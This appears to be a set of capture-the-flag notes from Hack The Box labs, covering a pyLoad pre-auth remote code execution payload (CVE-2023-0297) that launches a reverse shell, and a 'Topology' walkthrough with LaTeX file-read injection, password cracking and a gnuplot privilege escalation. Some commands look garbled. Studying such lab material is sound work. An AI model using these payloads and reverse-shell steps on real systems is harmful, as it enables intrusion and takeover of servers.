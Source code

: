 > ```
>                 - curl -i -s -k -X $'POST' \
> -H $'Host: 127.0.0.1:8000' -H $'Content-Type: application/x-www-form-urlencoded' -H $'Content-Length: 184' \
> --data-binary $'package=xxx&crypted=AAAA&jk=%70%79%69%6d%70%6f%72%74%20%6f%73%3b%6f%73%2e%73%79%73%74%65%6d%28%22%74%6f%75%63%68%20%2f%74%6d%70%2f%70%77%6e%64%22%29;f=function%20f2(){};&passwords=aaaa' \
> $'http://127.0.0.1:8000/flash/addcrypted2'
> ```

* [Exploit Code](https://github.com/bAuh0lz/CVE-2023-0297_Pre-auth_RCE_in_pyLoad)
  * edit it for our purpose curl -i -s -k -X $'POST'\
    \--data-binary $'jk=pyimport%20os;os.system("Bash%20/dev/shm/rev.sh");f=function%20f2(){};\&package=xxx\&crypted=AAAA&\&passwords=aaaa'\
    $'http://127.0.0.1:8000/flash/addcrypted2'
* on SAU:
  * cd /dev
    * cd shm
      * nano rev.sh
        * ![](https://hackmd.io/_uploads/SkYEyhUc2.png)
      * chmod +x rev.sh
      * ./rev.sh
      * ![](https://hackmd.io/_uploads/rylOE2Iq3.png)
* on LOCAL machine:
  * `nc -nlvp 4444`
  * boom, we are in
    * cd
    * cat root.txt

## Topology

1. Reco
   * `nmap -sVC 10.10.11.217 -Pn -p-`
     * 22 and 80 open
   * website
     * Gobuster found nothing
     * there is a link to LaTex Equation Generator
2. Weaponisation - HTPASSWD exploit - `$\lstinputlisting{/var/www/dev/.htpasswd}$` - ![](https://hackmd.io/_uploads/rkeYInIq3.png)
3. Exploitation
   * we obtained login credentials with hashed PW
     * hash-identifier -> md5
       * decrypt it to obtain PW
         * vdaisley@topology.htb:calculus20
4. User flag
   * ssh vdaisley@10.10.11.217
     * PW: calculus20
   * ls
   * cat user.txt
5. Root flag
   * while searching the dirs in user, there is gnuplot in /opt dir
     * ![](https://hackmd.io/_uploads/rkJWO2Ucn.png)
     * gnuplot uses plt files - we can use it for pspy86 exploitation
       * lets create http server, upload a file containing exploit inside the machine to obtain root privileges
   * LOCAL machine:
     * download pspy64 exploit
     * python -m http.server
   * TARGET machine:
     * wget \<LOCAL\_IP>:8000/pspy64
     * echo "system "chmod u+s"" > /opt/gnuplot/test.plt
     * cat /opt/gnuplot/test.plt
     * ls -la /opt/gnuplot/test.plt
     * bash -p